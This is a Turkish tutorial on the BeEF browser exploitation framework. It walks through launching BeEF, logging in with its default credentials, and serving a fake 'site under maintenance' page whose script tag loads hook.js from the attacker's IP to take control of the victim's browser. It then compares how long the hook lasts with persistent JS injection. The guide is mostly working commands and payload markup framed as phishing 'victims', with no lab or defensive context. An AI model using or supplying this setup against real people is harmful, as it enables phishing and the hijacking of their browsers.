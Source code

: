 #### **🎯 Temel Çalışma Mantığı**
- **Hedef:** Kurbanın tarayıcısında JavaScript kodu çalıştırarak kontrol sağlamak
- **Çalışma:** Terminalden başlatıldığında yerel ağda web arayüzü (http://[saldırgan-ip]:3000) açar
- **Yetki:** `sudo ./beef` komutu ile root yetkisinde çalıştırılmalıdır ⚡

---
### **🎯 Beef Framework Temel Kullanım**

#### **🔧 Beef'i Başlatma**
```bash
# 1. Beef klasörüne git (genellikle /opt klasörüne kurulması önerilir)
cd /opt/beef

# 2. Beef'i başlat
./beef
```

#### **🌐 Beef Arayüzüne Erişim**
- Beef başlatıldığında terminalde **UI URL** görüntülenecek
- Tarayıcıdan bu adrese gidilir: `http://[saldırgan-ip]:3000/ui/panel`
- Varsayılan giriş bilgileri: **beef** / **beef**
---
### **🎣 TEMEL OLTALAMA YÖNTEMİ**

#### **📡 Web Sunucusu Hazırlığı**
```bash
# 1. Apache web sunucusunu başlat
sudo service apache2 start

# 2. Web dizinine git
cd /var/www/html
```

#### **📄 index.html Dosyasını Düzenleme**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Güvenli Site</title>
</head>
<body>
    <h1>Site Bakımda</h1>
    <p>Lütfen bekleyin...</p>
    
    <!-- 🔻 SALDIRGAN IP'SİNİ BURAYA YAZ -->
    <script src="http://10.0.2.8:3000/hook.js"></script>
</body>
</html>
```

#### **🌐 Kurbanı Oltalama**
- Kurban, tarayıcısından saldırganın IP adresine gider: `http://[saldırgan-ip]`
- **Beef hook'u yüklenir** ve kurban "Hooked Browsers" listesine düşer ✅
- 🎯 **Hedef başarıyla oltalanmıştır!**

---

### **⚠️ BU YÖNTEMİN SINIRLILIKLARI**

| Durum | Erişim | Açıklama |
|-------|--------|----------|
| **✅ Site Açık** | **Aktif** | Kurban sitedeyken kontrol devam eder |
| **❌ Site Kapalı** | **Kaybolur** | Kurban siteyi kapattığında erişim biter |
| **🔄 Yeni Sekme** | **Yeniden Başlar** | Kurban yeni sekmede siteye girerse erişim yeniden sağlanır |

---

### **🆚 DİĞER YÖNTEMLERLE KARŞILAŞTIRMA**

| Yöntem | Kalıcılık | Kapsam | Zorluk |
|--------|-----------|--------|--------|
| **🌐 Basit Oltalama** | ❌ Geçici | Tek sayfa | 🟢 Kolay |
| **🚀 JS Enjeksiyonu** | ✅ **Kalıcı** | Tüm siteler | 🟡 Orta |

---